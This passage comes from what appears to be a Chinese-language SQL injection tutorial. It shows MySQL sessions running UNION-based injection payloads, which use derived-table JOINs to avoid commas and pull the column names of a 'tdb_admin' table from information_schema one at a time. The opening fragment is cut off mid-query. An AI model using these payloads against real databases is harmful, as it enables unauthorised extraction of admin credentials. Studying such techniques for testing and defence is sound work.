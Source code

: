 (select 2)B join

 (select 3)C join

 (select 4)D

)



```plain
# 字段1
mysql> select * from test where id=-1 union select * from (
	(select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
);
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
| id   | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```



```plain
# 字段2
mysql> select * from test where id=-1 union select * from (
	(select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 1)A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
);
+----------+------+------+---------+
| id       | test | map  | content |
+----------+------+------+---------+
| username | 2    | 3    | 4       |
+----------+------+------+---------+
1 row in set (0.00 sec)
```



# 0x08 爆内容



注意: offset 0 表示要显示那一条数据

offset 0 表示第一条

offset 1 表示第二条
